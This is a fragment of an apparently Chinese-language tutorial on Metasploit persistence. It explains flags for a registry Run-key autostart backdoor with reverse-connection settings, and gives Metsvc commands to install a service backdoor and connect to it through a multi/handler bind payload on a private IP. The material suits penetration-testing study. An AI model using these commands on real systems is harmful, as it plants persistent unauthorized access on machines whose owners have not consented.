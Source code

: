 -X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限原因会导致添加失败，后门无法启动。因此在非管理员权限下，不推荐使用该参数
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息
-L：后门传到远程主机的位置默认为%TEMP%
-i：设置反向连接间隔时间为5秒
-p：设置反向连接的端口号
-r：设置反向连接的ip地址
</code></pre>
<hr/>
<h4>Metsvc(通过服务安装)</h4>
<pre><code>run metsvc -h   #查看帮助
run metsvc -A   #自动安装后门
run metsvc -r   #删除后门

连接后门
use exploit/multi/handler 
set payload windows/metsvc_bind_tcp
set rhost 192.168.183.169
set lport 31337
run
</code></pre>


#### Metsvc(通过服务安装)

（注：命令来自网络）
